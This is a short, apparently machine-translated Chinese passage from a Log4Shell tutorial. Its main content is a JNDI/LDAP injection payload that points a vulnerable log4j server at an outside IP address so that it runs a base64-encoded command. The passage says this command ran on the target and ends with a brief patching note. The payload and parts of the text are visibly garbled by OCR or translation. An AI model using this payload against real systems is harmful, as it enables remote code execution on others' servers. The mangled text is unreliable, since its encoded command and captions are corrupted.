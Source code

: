 base64

现在我们将在我们的目标中使用这个有效负载:$ { JNDI:LDAP://184 . 73 . 9 . 177:1389/Basic/Command/Base64/cgluzybgd 2 hvyw 1 pyc 5 lewcznnl 1 nnl 0 z 21 id 21 lnxo 0y 25 qztrodm 5 symeuynvycngnvbgxhy m 9 yyxrvci 5 uzxq = }

![](img/94a2bc9e74f31d8135751309d42c97f4.png)

log4shell

所以，我们的命令在服务器上执行。在您的实例中，您将看到类似这样的内容:

![](img/8932dd79a9dd0ba4aaf4a2ba8ae5c2dc.png)

自动警报系统

# 缓解措施:

log4j 的 2.15.0 版已经发布，没有该漏洞。一定要尽快更新。

编辑:这不再是“零日”了。补丁已经发布了！所以，现在姑且称之为‘漏洞’吧。

# 参考资料:
